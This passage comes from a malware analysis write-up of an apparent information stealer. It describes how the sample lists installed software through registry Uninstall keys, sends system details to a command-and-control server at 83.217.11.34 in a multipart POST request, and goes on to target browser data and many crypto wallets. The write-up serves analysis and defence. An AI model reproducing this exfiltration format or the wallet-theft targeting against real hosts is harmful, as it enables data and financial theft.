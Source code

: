 ```String
	...
	<many more>
```
The installed applications are found using the following registry keys:
```String
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall
HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\Uninstall
```
#### POST System Data To C2
A header for a web request is created using a randomly generated string as the boundary field.
```String
 Content-Type: multipart/form-data; boundary=uQuoaXzGzkghm4gR\r\n\r\n\r\n
```
The boundary string will be used to delimit the system information in the POST request.

Send a POST request containing the data collected to the C2 server. The request will be in the following format:
```String
POST /<token> HTTP/1.1
Accept: */*
Content-Type: multipart/form-data; boundary=<boundary>
User-Agent: 125122112551
Host: 83.217.11.34
Content-Length: <length>
Connection: Keep-Alive
Cache-Control: no-cache
–<boundary>
Content-Disposition: form-data; name="file"; filename="System Info.txt"
Content-Type: multipart/form-data
System Information: 
	- Locale: English
	- Time zone: 	
	- OS: Windows 10 Home
	- Architecture: x64
	- CPU: Intel(R) Core(TM) i7-6700 CPU @ 340GH (2 cores)
	- RAM: 4095 MB
	- Display size: 1536x781
	- Display Devices:
		0) NVIDIA GeForce GTX 580
Installed applications:
	010 Editor 1201 (64-bit) 
	7-Zip 1505 beta x64 
	...
	<many more>
--<boundary>--
```

#### Data Theft
After the system information is exfiltrated, the malware begins to steal more sensitive data. In the interest of brevity, I am not going to dig any further into the functionality here. There are many other writeups which do a great job of this. I will simply list the items which this sample is configured to steal.
```String
Browser Data
Various Crypto wallets from software/extensions
	BlockstreamGreen
	TronLink
	MetaMask
	Binance
	Ronin
	JaxxLiberty
	Atomic
	Coinomi
	Electrum
```